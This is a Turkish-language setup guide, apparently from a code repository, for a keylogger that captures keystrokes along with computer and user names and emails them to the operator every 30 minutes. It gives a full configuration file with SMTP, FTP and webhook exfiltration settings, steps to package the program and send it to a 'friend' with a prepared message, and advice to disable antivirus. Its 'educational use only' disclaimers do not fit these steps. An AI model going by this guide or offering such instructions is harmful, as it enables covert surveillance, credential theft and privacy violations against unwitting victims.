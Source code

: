 # 📧 E-posta ile Uzaktan Takip Rehberi

## 🎯 E-posta Kullanımı için Gerekli Adımlar

### **1. Gmail Hesabı Hazırlığı**

#### **Gmail 2FA (2 Adımlı Doğrulama) Etkinleştirme:**
```
1. Gmail hesabınıza giriş yapın
2. Sağ üst köşede profil fotoğrafınıza tıklayın
3. "Google Hesabını Yönet" seçin
4. "Güvenlik" sekmesine gidin
5. "2 Adımlı Doğrulama" bölümünü bulun
6. "Başlayın" butonuna tıklayın
7. Telefon numaranızı doğrulayın
8. 2FA'yı etkinleştirin
```

#### **Gmail App Password Oluşturma:**
```
1. Google Hesabı > Güvenlik > 2 Adımlı Doğrulama
2. "Uygulama şifreleri" bölümünü bulun
3. "Uygulama seçin" dropdown'dan "Diğer (Özel ad)" seçin
4. Ad: "KeyLogger App" yazın
5. "Oluştur" butonuna tıklayın
6. 16 haneli şifreyi kopyalayın (örn: abcd efgh ijkl mnop)
7. Bu şifreyi not alın - bir daha gösterilmeyecek!
```

### **2. Konfigürasyon Dosyası Düzenleme**

#### **remote_config.json Dosyasını Düzenleyin:**
```json
{
  "EmailSettings": {
    "Enabled": true,
    "SmtpServer": "smtp.gmail.com",
    "SmtpPort": 587,
    "SenderEmail": "sizin-email@gmail.com",
    "SenderPassword": "abcd efgh ijkl mnop",
    "RecipientEmail": "alici-email@example.com",
    "SendIntervalMinutes": 30
  },
  "FtpSettings": {
    "Enabled": false,
    "Server": "",
    "Username": "",
    "Password": "",
    "RemoteDirectory": "/logs/",
    "UploadIntervalMinutes": 15
  },
  "WebhookSettings": {
    "Enabled": false,
    "WebhookUrl": "",
    "SendImportantKeysOnly": true
  },
  "GeneralSettings": {
    "ComputerName": "",
    "UserName": "",
    "MaxQueueSize": 1000,
    "EnableEncryption": false
  }
}
```

#### **Önemli Notlar:**
- **SenderEmail**: Gmail adresinizi girin
- **SenderPassword**: App Password'ü girin (normal şifre değil!)
- **RecipientEmail**: Logları alacak e-posta adresini girin
- **SendIntervalMinutes**: Kaç dakikada bir gönderileceği (30 önerilen)

### **3. Test Etme**

#### **Kendi Bilgisayarınızda Test:**
```
1. TestKeyLogger.exe'yi çalıştırın
2. "⚙️ Konfigürasyon" butonuna tıklayın
3. "🚀 Başlat" butonuna tıklayın
4. Birkaç tuş vurun
5. 30 dakika sonra e-posta gelip gelmediğini kontrol edin
```

#### **E-posta İçeriği Örneği:**
```
Konu: 🔍 KeyLogger Log - DESKTOP-ABC123 - 2025-01-06 02:30

Eğitim amaçlı keylogger log verisi.

🖥️ Bilgisayar: DESKTOP-ABC123
👤 Kullanıcı: TestUser
🕒 Tarih: 2025-01-06 02:30:15
📊 Tuş Sayısı: 25

⚠️ Bu log sadece eğitim amaçlıdır ve izinli kullanımdır.

📝 Log İçeriği:
[02:30:15] H
[02:30:15] e
[02:30:15] l
[02:30:15] l
[02:30:15] o
```

### **4. Arkadaşınıza Gönderme**

#### **Paket Hazırlama:**
```
1. RemoteKeyLogger_Package klasörünü zip'leyin
2. TestKeyLogger.exe dosyasını dahil edin
3. remote_config.json dosyasını dahil edin
4. EMAIL_KULLANIM_REHBERI.md dosyasını dahil edin
```

#### **Gönderme Mesajı:**
```
"Merhaba, eğitim amaçlı keylogger uygulamasını gönderiyorum.

ÖNEMLİ ADIMLAR:
1. EMAIL_KULLANIM_REHBERI.md dosyasını okuyun
2. Gmail App Password oluşturun
3. remote_config.json dosyasını düzenleyin
4. TestKeyLogger.exe'yi çalıştırın
5. '⚙️ Konfigürasyon' butonuna tıklayın
6. '🚀 Başlat' butonuna tıklayın

Sadece eğitim amaçlı ve açık izin ile kullanın!
İzinsiz kullanım yasalara aykırıdır."
```

### **5. Uzaktan Takip**

#### **E-posta ile Takip:**
```
- 30 dakikada bir otomatik e-posta gelecek
- Tuş vuruşları detaylı şekilde raporlanacak
- Bilgisayar adı ve kullanıcı bilgisi ile birlikte
- Zaman damgası ile birlikte
```

#### **Takip Verileri:**
```
- Hangi tuşlara basıldığı
- Ne zaman basıldığı
- Hangi bilgisayarda kullanıldığı
- Hangi kullanıcı tarafından kullanıldığı
```

## 🔧 Sorun Giderme

### **E-posta Gönderilmiyor:**
```
1. Gmail App Password doğru mu kontrol edin
2. 2FA etkinleştirilmiş mi kontrol edin
3. SMTP ayarları doğru mu kontrol edin
4. İnternet bağlantısı var mı kontrol edin
5. Firewall port 587'yi engelliyor mu kontrol edin
```

### **"Authentication Failed" Hatası:**
```
1. Normal şifre yerine App Password kullanın
2. App Password'ü doğru kopyaladığınızdan emin olun
3. 2FA'nın etkin olduğundan emin olun
```

### **"Connection Timeout" Hatası:**
```
1. Port 587'nin açık olduğundan emin olun
2. Firewall ayarlarını kontrol edin
3. İnternet bağlantısını test edin
4. SMTP sunucu adresini kontrol edin
```

## ⚠️ Güvenlik Uyarıları

### **Yasal Uyarılar:**
- **İzinsiz kullanım yasadışıdır**
- **Sadece eğitim amaçlı** kullanın
- **Açık yazılı izin** alın
- **Yasalara uygun** hareket edin

### **Güvenlik Önerileri:**
- **App Password'ü güvenli saklayın**
- **Log dosyalarını düzenli temizleyin**
- **E-posta hesabını güvenli tutun**
- **Antivirüs programlarını geçici olarak kapatın**

## 🎯 Sonuç

**✅ E-posta ile uzaktan takip hazır!**

1. **Gmail App Password** oluşturun
2. **remote_config.json** dosyasını düzenleyin
3. **TestKeyLogger.exe**'yi çalıştırın
4. **Arkadaşınıza gönderin**
5. **E-posta ile takip edin**

**📧 Artık 30 dakikada bir otomatik e-posta alacaksınız!**
